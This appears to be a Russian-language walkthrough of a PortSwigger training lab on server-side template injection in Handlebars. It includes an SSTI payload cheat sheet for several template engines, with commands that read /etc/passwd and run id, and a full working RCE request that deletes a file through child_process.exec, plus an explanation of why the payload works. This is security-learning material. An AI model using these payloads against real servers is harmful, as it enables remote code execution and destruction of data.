



#### Внедрение шаблона на стороне сервера на неизвестном языке с документированным эксплойтом
(то есть - на основе известной уязвимости)

лаба https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

задание = удалить файл `morale.txt`
но сам эксплойт - говорят - найти в интернете самому 

---------------

в запросе `GET /?message=77777777 HTTP/2`

параметр отражается на странице!




------


проверяю пейлоады базовые по своей шпоре
шпаргалка по пэйлоадам (для разных движков)

### Python (Jinja2, Mako, Tornado)
```c
{{config}}
{{6*6}}
{{self.__init__.__globals__.__builtins__}}
{{''.__class__.__mro__[1].__subclasses__()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
### Ruby (ERB)
```c
<%= system('id') %>
<%= File.read('/etc/passwd') %>
<%= `id` %>
```

### Java (Freemarker, Velocity)
```c
${7*7}
<#assign ex = "freemarker.template.utility.Execute"?new()>${ex("id")}
${.vars["java.lang.Runtime"].getRuntime().exec("id")}
```

### PHP (Twig, Smarty)
```c
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{$smarty.version}
{php}echo system('id');{/php}
```


--------

при первом же запросе  c  пейлоадом `{{6*6}}`
GET /?message={{6*6}} HTTP/2

ответ с подробной ошибкой:
```c
/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
            ^

Error: Parse error on line 1:
{{6*6}}
--^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
    at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
    at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
    at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
    at [eval]:5:13
    at Script.runInThisContext (node:vm:128:12)
    at Object.runInThisContext (node:vm:306:38)
    at node:internal/process/execution:83:21
    at [eval]-wrapper:6:24

Node.js v19.8.1
```

благодаря подробной ошибке в продакте
получаю версию сервера

Node.js v19.8.1 с движком handlebars

--------

покачто получается только вывести текущий контекст
`GET /?message={{this}} HTTP/2`
ответ 
```c
<div>[object Object]
</div>
```
 это подтверждает уязвимость,

но чтобы я только не пробовал сделать, инфа никакая не выводится!
либо ошибка , либо ответ 200 - но нет ничего

такое ощущение - что команды выполняются, но ответ не приходит

-----

вот здесь например рассказано про RCE в handlebars
https://secdb.nttzen.cloud/security-advisory/npm/NPM:GHSA-2CF5-4W76-R9QV

и пишут что работает до версии handlebars 3.0.0^ в лабе версия вообще Node.js 19.8.1 , а про handlebars нет инфы

я пробовал пейлоад этот
```
      "{{#with (__lookupGetter__ \"__proto__\")}}"
        "{{#with (./constructor.getOwnPropertyDescriptor . \"valueOf\")}}"
        "{{#with ../constructor.prototype}}"
        "{{../../constructor.defineProperty . \"hasOwnProperty\" ..}}"
        "{{/with}}"
        "{{/with}}"
        "{{/with}}"
        "{{#with \"constructor\"}}"
        "{{#with split}}"
        "{{pop (push \"alert('Vulnerable to CVE-2021-23369')\")}}"
        "{{#with .}}"
        "{{#with (concat (lookup join (slice 0 1)))}}"
        "{{#each (slice 2 3)}}"
        "{{#with (apply 0 ../..)}}"
        "{{.}}"
        "{{/with}}"
        "{{/each}}"
        "{{/with}}"
        "{{/with}}"
        "{{/with}}"
```




но не работает! одни лишь ошибки синтаксиса

-------


вот тут на сайте чувак делает разбор решения лабы на htb
https://velog.io/@jjs9366/HTB-Bike




--------


вот пейлоад его 
переформатировал его в строку + пробелы кодировал
```c
GET /?message=wrtz{{#with%20"s"%20as%20|string|}}{{#with%20"e"}}{{#with%20split%20as%20|conslist|}}{{this.pop}}{{this.push%20(lookup%20string.sub%20"constructor")}}{{this.pop}}{{#with%20string.split%20as%20|codelist|}}{{this.pop}}{{this.push%20"return%20require('child_process').exec('rm%20/home/carlos/morale.txt');"}}{{this.pop}}{{#each%20conslist}}{{#with%20(string.sub.apply%200%20codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}} HTTP/2
```

и сработало!!

карлос удален,,,

ну, было не просто это решить, так как я перелопатил кучу сайтов, но одни синтаксические были

видимо, чел докопался до того, как работает Handlebars под капотом

вот разбор от дипсика
```c
- **`   {{#with "s" as |string|}}`** — создает переменную `string`, которая указывает на строку `"s"`. у строки в JS есть свойство `sub` (метод `String.prototype.substring`).
    
- **`{{#with "e"}}`** — создает переменную `string.sub`, которая ссылается на метод `substring`.
    
- **`{{#with split as |conslist|}}`** — создает массив, который представляет собой список конструкторов. тут начинается магия. через `split` получают доступ к массиву, а через массив — к его методам (`pop`, `push`).
    
- **`{{this.pop}}`** — удаляет последний элемент из массива (очищает место).
    
- **`{{this.push (lookup string.sub "constructor")}}`** — тут ключевой момент. `lookup` ищет свойство `constructor` у метода `sub`. у каждой функции в JS есть свойство `constructor`, которое указывает на глобальный объект `Function`. через него можно получить доступ к глобальному контексту.
    
- **`{{#with string.split as |codelist|}}`** — создает еще один массив.
    
- **`{{this.push "return require('child_process').exec('whoami');"}}`** — пушит код в массив. этот код станет телом функции.
    
- **`{{#with (string.sub.apply 0 codelist)}}`** — создает новую функцию из строки кода и выполняет её.
  
  ## почему это работает

в JS любая строка имеет доступ к глобальному объекту через цепочку:

- `"s".sub` → функция `substring`
    
- `"s".sub.constructor` → конструктор функции (Function)
    
- `"s".sub.constructor("return require('child_process').exec('whoami');")` → создает новую функцию из строки кода
    
- и эта функция выполняется в контексте Node.js, где `require` доступен
    

Zombiehelper54 просто нашел способ:

1. получить доступ к конструктору функции через строку
    
2. создать новую функцию из строки кода
    
3. выполнить её
```


--------

## выводы

ну как минимум, чтобы это не допустить - нужно очищать пользовательский ввод всегда

не должно быть доступа к управлению сервером без аутентификации 

ну и обновлять все по до топовых версий по возможности


